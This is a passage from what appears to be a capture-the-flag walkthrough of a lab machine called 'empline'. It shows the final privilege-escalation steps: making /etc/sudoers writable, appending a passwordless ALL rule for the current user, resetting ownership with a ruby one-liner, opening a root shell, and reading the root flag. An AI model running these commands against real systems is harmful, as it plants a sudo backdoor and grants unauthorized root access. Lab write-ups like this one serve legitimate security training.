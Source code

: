 3. Modify `/etc/sudoers`: 

```
chmod 640 /etc/sudoers
echo "$(whoami) ALL=(ALL) NOPASSWD: ALL" >> /etc/sudoers
```

4. Reset the ownership of `/etc/sudoers` to root:

```
/usr/local/bin/ruby -e 'File.chown(0, 0, "/etc/sudoers")'
```

5. Get a root shell:

```
sudo su -
```


![](images/Pasted%20image%2020250430170035.png)

There we go, let's read final flag and finish the CTF:

```
root@empline:~# cat /root/root.txt
74fea7cd0556e9c6f22e6f54bc68f5d5
```


![](images/Pasted%20image%2020250430170111.png)


